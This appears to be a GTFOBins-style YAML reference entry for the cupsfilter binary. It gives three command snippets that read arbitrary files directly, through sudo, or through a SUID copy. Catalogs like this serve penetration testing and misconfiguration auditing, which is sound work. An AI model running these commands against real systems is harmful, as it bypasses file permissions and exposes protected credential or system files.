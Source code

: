 ```yaml
---
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        cupsfilter -i application/octet-stream -m application/octet-stream $LFILE
  sudo:
    - code: |
        LFILE=file_to_read
        sudo cupsfilter -i application/octet-stream -m application/octet-stream $LFILE
  suid:
    - code: |
        LFILE=file_to_read
        ./cupsfilter -i application/octet-stream -m application/octet-stream $LFILE
---
```

